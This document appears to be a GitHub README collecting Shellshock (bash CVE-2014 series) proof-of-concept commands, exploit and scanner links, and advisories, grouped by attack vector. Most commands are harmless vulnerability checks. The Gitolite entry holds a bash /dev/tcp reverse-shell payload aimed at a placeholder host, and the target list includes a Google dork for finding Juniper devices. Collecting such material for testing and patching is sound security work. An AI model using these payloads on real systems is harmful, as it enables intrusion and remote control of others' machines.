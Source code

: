 Shellshocker - Repository of "Shellshock" Proof of Concept Code
=================

Collection of Proof of Concepts and Potential Targets for #ShellShocker

Wikipedia Link: https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29#CVE-2014-7186_and_CVE-2014-7187_Details

Please submit a pull request if you have more links or other resources

**Speculation:(Non-confirmed possibly vulnerable)** 

+ XMPP(ejabberd)
+ Mailman
+ MySQL
+ NFS
+ Bind9
+ Procmail [see](https://www.dfranke.us/posts/2014-09-27-shell-shock-exploitation-vectors.html)
+ Exim [see](https://www.dfranke.us/posts/2014-09-27-shell-shock-exploitation-vectors.html)
+ Juniper Google Search`inurl:inurl:/dana-na/auth/url_default/welcome.cgi`
  + via: https://twitter.com/notsosecure/status/516132301025984512
  + via: http://kb.juniper.net/InfoCenter/index?page=content&id=JSA10648&actp=RSS
+ Cisco Gear
  + via: http://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20140926-bash

**If you know of PoCs for any of these, please submit an issue or pull request with a link.**

## Command Line (Linux, OSX, and Windows via Cygwin)

+ [bashcheck](https://github.com/hannob/bashcheck) - script to test for the latest vulns 
 

### CVE-2014-6271
+`env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id`

### CVE-2014-7169
_will create a file named echo in cwd with date in it, if vulnerable_
+ `env X='() { (a)=>\' bash -c "echo date"; cat echo`

### CVE-2014-7186
+ `bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo "CVE-2014-7186 vulnerable, redir_stack"`

### CVE-2014-7187
+ `(for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash || echo "CVE-2014-7187 vulnerable, word_lineno"`

### CVE-2014-6278
+

### CVE-2014-6277
+ 


## IBM z/OS - 
+ http://mainframed767.tumblr.com/post/98446455927/bad-news-is-it-totally-works-in-bash-on-z-os-and

## HTTP
+ Metasploit Exploit Module Apache MOD_CGI - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/apache_mod_cgi_bash_env_exec.rb
+ HTTP Header Polution by @irsdl - http://pastebin.com/QNkf7dYS
+ HTTP CGI-BIN - http://pastebin.com/166f8Rjx
+ cPanel - http://blog.sucuri.net/2014/09/bash-vulnerability-shell-shock-thousands-of-cpanel-sites-are-high-risk.html
+ F5 - https://twitter.com/securifybv/status/515035044294172673
  + https://twitter.com/securifybv/status/515035044294172673/photo/1
  + https://twitter.com/avalidnerd/status/515056463589675008
    + https://twitter.com/avalidnerd/status/515056463589675008/photo/1
+ Invisiblethreat.ca - https://www.invisiblethreat.ca/2014/09/cve-2014-6271/
+ Commandline version - https://gist.github.com/mfadzilr/70892f43597e7863a8dc
+ User-Agent based walkthrough with LiveHTTPHeaders - http://www.lykostech.net/lab-time-exploiting-shellshock-bash-bug-virtual-server/
+ User-Agent based walkthrough with Burp - http://oleaass.com/shellshock-proof-of-concept-reverse-shell/
+ User-Agent via Curl with test server - http://shellshock.notsosecure.com/
+ User-Agent based but supports Tor and Socks5 (Python) - https://github.com/lnxg33k/misc/blob/master/shellshock.py
+ User-Agent based in Ruby - https://github.com/securusglobal/BadBash
+ Header based simple scanner using sleep with multithread support - https://github.com/gry/shellshock-scanner

## DHCP
+ Trusted sec exploitation via Tftpd32 - https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/
+ Metasploit Exploit Module - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/dhcp/bash_environment.rb
+ Metasploit Auxiliary Module - https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/server/dhclient_bash_env.rb
+ Perl Script - http://pastebin.com/S1WVzTv9

## SSH
+ Stack Overflow - http://unix.stackexchange.com/questions/157477/how-can-shellshock-be-exploited-over-ssh
+ SSH ForcedCommand - https://twitter.com/JZdziarski/status/515205581226123264
  + https://twitter.com/JZdziarski/status/515205581226123264/photo/1
+ SendEnv: `LC_X='() { :; }; echo vulnerable' ssh foo@bar.org -o SendEnv=LC_X`
+ Gitolite - https://twitter.com/Grifo/status/515089986161766400
  + $ `ssh GITOLITEUSER@VULNERABLEIP '() { ignore;}; /bin/bash -i >& /dev/tcp/REVERSESHELLIP/PORT 0>&1'`
  + (necessary to have a git account on the server)

## OSX
+ Priv Escalation via VMware Fusion - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/osx/local/vmware_bash_function_root.rb
+ Fix: http://support.apple.com/kb/DL1769

## SIP
+ SIP Proxies: https://github.com/zaf/sipshock


## Qmail
+ Detailed walkthrough - http://marc.info/?l=qmail&m=141183309314366&w=2
+ Tweet from @ymzkei5 - http://twitter.com/ymzkei5/status/515328039765307392
  + http://twitpic.com/ec3615
  + http://twitpic.com/ec361o

## FTP
+ Pure-FTPd: https://gist.github.com/jedisct1/88c62ee34e6fa92c31dc

## Phusion Passenger
+ https://news.ycombinator.com/item?id=8369776 

## Oracle
+ [Alert and list of affected Products](http://www.oracle.com/technetwork/topics/security/alert-cve-2014-7169-2303276.html)




## TMNT
+ https://twitter.com/SynAckPwn/status/514961810320293888/photo/1

## Hand
+ Via @DJManilaIce - http://pastie.org/9601055
```
user@localhost:~$ env X='() { (a)=>\' /bin/bash -c "shellshocker echo -e \"           __ __\n          /  V  \ \n     _    |  |   |\n    / \   |  |   |\n    |  |  |  |   |\n    |  |  |  |   |\n    |  |__|  |   |\n    |  |  \  |___|___\n    |  \   |/        \ \n    |   |  |______    |\n    |   |  |          |\n    |   \__'   /     |\n    \        \(     /\n     \             /\n      \|            |\n\""; cat shellshocker
/bin/bash: X: line 1: syntax error near unexpected token `='
/bin/bash: X: line 1: `'
/bin/bash: error importing function definition for `X'
           __ __
          /  V  \ 
     _    |  |   |
    / \   |  |   |
    |  |  |  |   |
    |  |  |  |   |
    |  |__|  |   |
    |  |  \  |___|___
    |  \   |/        \ 
    |   |  |______    |
    |   |  |          |
    |   \__'   /     |
    \        \(     /
     \             /
      \|            |

```
